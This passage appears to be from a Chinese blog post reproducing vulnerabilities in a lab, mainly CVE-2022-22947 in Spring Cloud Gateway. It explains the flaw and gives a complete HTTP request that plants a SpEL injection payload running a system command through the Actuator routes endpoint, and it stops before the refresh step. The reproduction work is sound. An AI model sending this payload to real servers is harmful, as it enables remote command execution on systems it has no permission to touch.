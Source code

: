
然后发包，返回500
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/8757b893649248c19ebe677cbbec7893.png)
查看文件确认攻击成功
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/12516b574fe946e29b922d1ce113cb0d.png)


## Spring Cloud Gateway Actuator API SpEL表达式注入命令执行(CVE\-2022\-22947\)


* 漏洞原理
Spring Cloud Gateway是Spring中的一个API网关。其3\.1\.0及3\.0\.6版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。
这里我没有搞清楚具体发生漏洞的代码，这里知道攻击过程，反正就是能够自定义路由，然后通过refresh路由添加进去，然后你就可以使用你自定义的路由了，**具体的SpEL注入代码就是在你自定义路由的时候注入进去了，刷新就是触发路由执行SpEL，查看你的路由就是查看执行结果**。
* 影响版本：
Spring Cloud Gateway 3\.1\.0
Spring Cloud Gateway 3\.0\.6
* 漏洞复现
随便抓包修改数据包
1\.自定义路由



```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}

```

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/faf9e10d0cce44b9ba9ffc329e1ab797.png)
2\.刷新添加路由且执行SpEL
